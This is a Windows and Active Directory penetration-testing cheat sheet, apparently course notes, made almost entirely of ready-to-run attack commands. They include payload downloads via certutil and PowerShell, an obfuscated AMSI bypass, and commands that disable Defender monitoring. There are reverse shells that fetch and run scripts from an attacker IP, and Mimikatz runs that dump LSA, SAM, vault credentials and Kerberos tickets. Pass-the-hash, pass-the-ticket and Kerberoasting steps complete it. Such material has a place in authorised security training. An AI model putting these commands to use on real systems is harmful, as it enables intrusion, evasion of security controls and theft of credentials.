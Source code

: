 # Table of contents

- [Transfer](#transfer)
- [Privilege escalation](#privilege-escalation)


# Transfer

## Client - get files

#### HTTP

certutil
```
certutil -urlcache -split -f "http://10.9.228.20/hijackme.dll" C:\temp\hijackme.dll
```
powershell
```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')
```

```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://10.11.0.90/fgdump.exe" >> wget.ps1
echo $file = "exploit.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


#### FTP

```
echo open '[ip address]' 21> ftp.txt
echo user username password >> ftp.txt
echo put '[file to upload]'>> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

#### SMB

## Server - host files

HTTP server on port 80 
```powershell
Add-Type -AssemblyName "System.Web";$Hso=New-Object Net.HttpListener;$Hso.Prefixes.Add("http://+:80/");$Hso.Start();While ($Hso.IsListening){$HC=$Hso.GetContext();$HRes=$HC.Response;if($HC.Request.RawUrl -eq '/server/shutdown'){$Hso.Stop()};$HRes.Headers.Add("Content-Type",[System.Web.MimeMapping]::GetMimeMapping($HC.Request.RawUrl));$Stream=[System.IO.File]::OpenRead((Join-Path $Pwd ($HC.Request.RawUrl)));$HRes.ContentLength64=$Stream.Length;$Stream.CopyTo($HRes.OutputStream);$Stream.Close();$HRes.Close()};
```

# Privilege Escalation

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

# Active Directory

## Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Rev shell
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

Listener
```powershell
powercat -l -v -p 443 -t 100
```
Run remote command
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-command -ScriptBlock {Invoke-Mimikatz} -Session $sess
Invoke-Command --ScriptBlock ${function:Invoke-Mimikatz} -ComputerName
Enter-PSSession $sess
```

Check language mode and app locker config
```powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy files
```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
Copy-Item C:\Users\pastudent149\Documents\PowerView.ps1 -Destination .\PowerView.ps1 -FromSession $sessTo149
```

Download
```powershell
iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
iex(iwr http://192.168.50.149/Invoke-Mimikatz.ps1)
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
Run command
```cmd
runas /user:[Domain]\[user] cmd
```

Add content to file
```powershell
Add-Content IM.ps1 "Invoke-Mimikatz -Command 'privilege::debug token::elevate lsadump::lsa /patch' "
```


## Enumeration

Current privs
```powershell
whoami /priv
```
WMI from powershell
```powershell
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
Get Process name and its owner
```powershell
Get-Process -IncludeUserName
```

Get current domain
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain];$ADClass::GetCurrentDomain()
```


#### Bloodhound
```powershell
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```


#### PowerView

- [PowerView](https://github.com/lwierzbicki/PowerSploit/tree/master/Recon)
- [PowerSploit](https://powersploit.readthedocs.io)




### Attack

#### Over pass the hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash> /run:powershell.exe
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```

#### Pass the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krb_tkt.kirbi"'
```


#### Kerberoast

Get Kerberos ticket for user with SPN
```powershell
Get-NetUser -SPN | select serviceprincipalname
Request-SPNTicket -SPN "<serviceprincipalname>"
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Crack kerberoast hashes
```powershell
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```
Make user Kerberaostable
```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
Set-DomainObject -Identity sqlreportuser -SET @{serviceprincipalname='sqlreportuser/funcrop.local'}
Set-DomainObject -Identify sqlreportuser -Clear serviceprincipalname
```
Check ACLs
```powershell
Invoke-ACLScanner | ?{$_.IdentityReferenceName -match 'jumpsrvadmin'}
```

### Unconstrained Delegation
Servers with uncontrained delegations
```powershell
Get-NetComputer -Unconstrained | select -ExpandProperty name
```
Dump tickets
```powershell
cd .\userX
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
Use PowerView to wait Domain Admin to access resource on specific host
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
(dump tickets)
```
Reuse ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\userX\[0;6f5638a]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
Invoke-Command -ScriptBlock{whoami;hostname} -computername dcorp-dc
```


#### Mimikatz


Get AES keys
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
Get credentials vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
Get credentials from SAM
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
Dump creds and certs
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```
Export kerberos tickets
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
